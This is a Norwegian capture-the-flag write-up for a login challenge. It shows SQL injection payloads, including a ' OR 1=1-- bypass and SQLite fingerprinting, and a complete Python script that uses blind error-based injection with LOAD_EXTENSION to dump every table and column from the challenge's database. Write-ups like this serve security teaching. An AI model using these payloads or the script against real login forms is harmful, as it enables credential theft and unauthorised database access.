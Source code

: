 # Taskname
> Author: Mx. Task

## Challenge

## Solution
Noterer eposten fra forsiden for å bruke på login systemet, angir enn `'` som passord får enn php fatal feilmeldinger som inneholder deler av spørringen
```
SELECT * FROM b....
```
Forsøk på typisk auth bypass,
```
' OR 1=1--
```
gir dessverre ikke noe flag, så passordet er kanskje flagget?

Med en del testing vil enn finne at databasen i bruk er SQLite, eksempelvis ved å sende
```
' OR sqlite_version()--
```
som passord. Herfra er det mange veier til mål, eksempelvis å dumpe hele databasen:

```python
import requests
import re
from collections import defaultdict
from string import ascii_letters, digits, punctuation

uri = 'http://ctf.uiactf.no:3005/index.php?page=login.php'
vocab = ascii_letters + 'æøåÆØÅ ' + digits + '@!."#$%&()*+,-/:;<=>?[]^_`{|}~'
def leak(table, column):
    ret = []
    idx = 0
    for idx in range(100):
        tlen = 0
        for tlen in range(1,100):
            inj = f"' OR CASE WHEN ((SELECT length({column}) FROM {table} LIMIT {idx},1)={tlen}) THEN LOAD_EXTENSION(0) ELSE 0 end -- -"
            resp = requests.post(uri, data={'email': 'admin@minkulewebapp.finnesikke', 'passord': inj, 'login':'login'})
            if len(resp.text) == 1149:
                print(tlen)
                break
        else:
            print(f"LEAKED ALL '{column}' FROM '{table}'")
            break
        val = ''
        for l in range(1,tlen+1):
            for v in vocab:
                inj = f"' OR CASE WHEN ((SELECT substr({column},{l},1) FROM {table} LIMIT {idx},1)='{v}') THEN LOAD_EXTENSION(0) ELSE 0 END -- -"
                resp = requests.post(uri, data={'email': 'admin@minkulewebapp.finnesikke', 'passord': inj, 'login':'login'})
                if len(resp.text) == 1149:
                    val += v
                    break
        ret.append(val)
    return ret

table = 'sqlite_master'
column = 'name'
tables = leak(table, column)
print(tables)
table_col = dict()
for table in tables:
    table_col[table] = leak(f"pragma_table_info('{table}')", 'name')
print(table_col)
class Table:
    def __init__(self, name, columns):
        self.name = name
        self.columns = columns
        self.colcontent = dict()
    def __str__(self):
        return '\n'.join(*zip(self.colcontent.values()))
tabledumps = []
for table, columns in table_col.items():
    T = Table(table, columns)
    for column in columns:
        T.colcontent[column] = leak(table, column)
    for c,v in T.colcontent.items():
        print(c)
        print(''.join(v))
    tabledumps.append(T)
```


